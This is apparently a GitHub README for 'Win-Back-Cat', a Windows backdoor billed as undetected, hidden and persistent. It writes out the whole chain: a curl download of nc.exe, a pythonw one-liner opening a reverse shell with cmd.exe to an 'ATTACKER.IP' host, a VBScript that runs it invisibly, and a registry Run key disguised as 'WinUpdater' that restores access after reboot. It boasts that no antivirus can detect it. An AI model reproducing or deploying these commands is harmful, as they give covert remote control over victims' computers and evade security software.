 <p>
  <h3 align="center">Win-Back-Cat</h3>
  <p align="center">
    A fully undetected, hidden, persistent, reverse netcat shell backdoor for Windows.
    <br />
    <br />
    <a href="https://github.com/RAF-87/win-back-cat/issues">Report Bug</a>
    ·
    <a href="https://github.com/RAF-87/win-back-cat/issues">Request Feature</a>
  </p>
</p>

<br />
<br />
<br />

<!-- ABOUT THE PROJECT -->

## About The Project

<br />

### Breakdown:

<br />

- Move into Temp folder with Environment Variable `%TEMP%` as this helps with compatibility between Windows versions.

- Fetch our Netcat version from repo with:<br />
 `curl https://raw.githubusercontent.com/RAF-87/win-back-cat/main/files/nc.exe > nc.exe`
<br />

#### Why? - Reverse Shell

<br />
We need Linux version of Netcat compiled for Windows, instead of the more common OpenBSD version.
<br /><br />
The feature we need is this one:
<br />

- `-e filename`: specify `filename` to exec after connect (use with caution). See the -c option for enhanced functionality.

<br />

In our case the `filename` will be `cmd.exe`. This flag is missing on some versions for obvious Security reasons.

<br />

#### Pythonw - Undetected

<br />

- Why `pythonw.exe` instead of `python.exe`?

`pythonw.exe` is a GUI app for launching GUI/no-UI-at-all scripts.

- NO console window is opened.
- Execution is asynchronous:
-- When invoked from a console window, the script is merely launched and the prompt returns right away, whether the script is still running or not.

- Windows trusts python. :shrug:

<br />

`pythonw -c "from subprocess import check_output; check_output('nc.exe `ATTACKER.IP` 4445 -e cmd.exe', shell=True);" >> wncat.bat`

We use `-c` to run the script as one-liner from string. We export it onto a batch script for easier execution chained with the next step.

<br />

#### Visual Basic - Hidden
<br />
`Dim WinScriptHost
Set WinScriptHost = CreateObject("WScript.Shell")
WinScriptHost.Run Chr(34) & "%TEMP%\wncat.bat" & Chr(34), 0
Set WinScriptHost = Nothing`

The above script, will run our batch script as a separate process on the background without the user ever seeing anything.

<br />

#### Windows Registry - Persistent

<br />

`reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /f /v WinUpdater /t REG_SZ /d "%TEMP%\wncat.vbs"`

We add our Visual Basic script to Run from the registry entry when Windows Boots up.
So whenever we lose connection, the backdoor will reopen at the next reboot.

<br /><br />

# Note:
- Using these combined tools, Windows or Any Antivirus cannot detect this backdoor.
- Remember to edit `ATTACKER.IP` for the reverse shell to work.

<br /><br /><br />

<!-- CONTACT -->
## Contact

- LinkedIn: [https://www.linkedin.com/in/raffaele-paglietti/](https://www.linkedin.com/in/raffaele-paglietti/)
- Email: wize@deadcyber.com
- Project Link: [https://github.com/RAF-87/win-back-cat](https://github.com/RAF-87/win-back-cat)

